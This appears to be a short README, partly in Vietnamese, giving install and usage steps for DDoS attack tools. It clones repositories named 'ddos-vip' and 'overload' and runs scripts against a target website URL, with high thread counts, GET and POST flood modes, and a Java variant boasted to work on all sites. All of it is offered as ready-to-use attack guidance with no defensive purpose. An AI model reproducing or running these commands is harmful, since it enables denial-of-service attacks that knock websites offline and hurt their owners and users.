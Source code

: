 # Setup termux
pkg update

pkg upgrade

pkg install golang

pkg install openjdk-17
# Setup gg cloud
sudo apt update

sudo apt install golang
# Lệnh Vào Tool
git clone https://github.com/User-xquyen/ddos-vip

cd free-ddos
# Chế độ Get sài cho web https://
go run ddosbyxq.go https://linkweb.com 2000 get 5000 nil
# Chế độ Post xài cho web http://
go run ddosbyxq.go https://linkweb.com 2000 post 5000 header.txt
# Java DDoS siêu bá cân all web :))

java ddosbyxq.java

Link web:

Thread: 170000

Method: 4000
# Overload DDoS
pkg install python3 python3-pip git -y

git clone https://github.com/7zx/overload

cd overload

pip3 install -r requirements.txt

python3 overload.py

├───Cách Nhập

├───TIME:1000

└───THREADS:20000

└───URL:link web
